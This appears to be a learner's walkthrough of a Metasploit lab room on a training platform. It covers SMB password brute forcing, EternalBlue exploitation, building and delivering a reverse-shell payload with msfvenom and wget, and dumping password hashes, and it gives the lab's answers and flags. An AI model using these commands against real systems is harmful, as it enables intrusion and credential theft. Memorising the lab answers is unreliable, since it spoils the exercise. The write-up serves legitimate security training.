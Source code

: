 # Metasploit: Introduction

## Introduction

This room walks you through the process of finding a vulnerability in a system, and exploiting that vulnerability.

## Process

### Task 2: Scanning

This task showed us a few ways to scan systems, including Metasploit modules.

#### Task 2 Questions:

**How many ports are open on the target system?**\
5\
Scanning the target with nmap showed 5 open ports.

**Using the relevant scanner, what NetBIOS name can you see?**\
ACME IT SUPPORT

**What is running on port 8000?**
webfs/1.21

**What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.**\
leo1234\
Searching for smb_login and selecting auxiliary/scanner/smb/smb_login, the ```info``` command shows we need to set SMBUser to "penny", RHOSTS to the target IP, and the PASS_FILE to the password file specified in the first task.\
After setting those with ```set SMBUser penny```, ```set RHOSTS [target IP]```, and ```set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt```, running the module gives us the password ```leo1234```.

### Task 3: The Metasploit Database

This task explained how to use the Metasploit Database, first by starting the PostgreSQL database with the command ```systemctl start postgresql```, then ```msfdb init```.\
You can then check if the database is up by launching ```msfconsole``` and runnning ```db_status```.\
You can also list workspaces using ```workspace```, add workspaces using ```workspace -a NAME```, and delete workspaces using ```workspace -d NAME```.

### Task 4: Vulnerability Scanning

#### Task 4 Questions:
**Who wrote the module that allows us to check SMTP servers for open relay?**\
Campbell Murray\
Searching for smtp relay gives us the scanner/smtp/smtp_relay module. We can select it by running ```use 0```, and then use the ```info``` command to see the relevant information.

### Task 5: Exploitation

**Exploit one of the critical vulnerabilities on the target VM**\
The target machine is vulnerable to the exploit shown in the task images (ms17_010_eternalblue).\
I first open the ```msfconsole```, and search for eternalblue. The first result was the one we need (windows/smb/ms17/010/eternalblue), so I run ```use 0```.\
After running ```info```, I can see that RHOSTS has to be set to the target IP, so I do so with ```set RHOSTS [target IP]```.
I type ```run```, and a meterpreter session is eventually opened.

**What is the content of the flag.txt file?**\
THM-5455554845\
Navigate through commonly used folders, I find the flag file in the user's documents folder (C:\Users\Jon\Documents), showing the contents using ```edit flag.txt```. I can then push the meterpreter session to the background using ```CTRL-Z```.

**What is the NTLM hash of the password of the user "pirate"?**\
8ce9a3ebd1647fcc5e04025019f4b875\
Now that the meterpreter session is in the background, we can leave the eternalblue module and searh for hashdump and windows: ```search hashdump windows``` (because the target machine is a windows machine) to find post/windows/gather/hashdump.\
Using that module, setting SESSION to 1 (my meterpreter session ID, checked by running the ```sessions``` command), and running prints the results we need, where the second hash on the pirate line is the one we are looking for.

### Task 6: Msfvenom

This task walks us through using msfvenom to create a reverse payload, and using that to open a meterpreter session and dump hashes of users on the system.

#### Task 6 Questions:
**Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).**\
We first create the meterpreter payload using ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf```. The example uses port 7777, but I found that port was being used so I used port 7776. I checked this by using ```nmap [AttackBox IP]```.

**Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).**\
This is pretty straight forward, just note that the example wget command is searching for a file named shell.elf, whereas the one we created was named rev_shell.elf. I also made the file executable after transferring it by running ```chmod +x rev_shell.elf```.

**Get a meterpreter session on the target machine.**\
We now have to use Multi Handler to receive the connection: we reopen ```msfconsole```, run ```use exploit/multi/handler```, and set our payload using ```set payload linux/x86/meterpreter/reverse_tcp```. We also set our lhost and lport values to our AttackBox IP and port 7776 respectively.\
I tried to run the file from the target machine directly but found when I switched back to the AttackBox the connection would close, so from the AttackBox I then ssh into the target machine using the credentials provided, became super user with ```sudo su```, and ran the file, establishing the connection.
I then left the meterpreter session running in the background by pressing ```CTRL-Z```.

**Use a post exploitation module to dump hashes of other users on the system.**\
$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0\
Now that we have the meterpreter session running, we can leave the Multi Handler module by running ```back```, and then select the post exploitation module we want: ```use post/linux/gather/hashdump```.\
I checked the ID of the meterpreter session we opened by typing ```sessions```, and then set the session variable using ```set SESSION 1``` (the ID of my meterpreter session was 1).\
Running the post exploitation module by typing ```run``` gave the hashes we wanted!



## Conclusion and Learning Outcomes
I really enjoyed this room, since it was a very hands on demonstration of a full exploitation and post exploitation of a target system. I found this very engaging and it was very nice to get to see the whole process of using Metasploit.
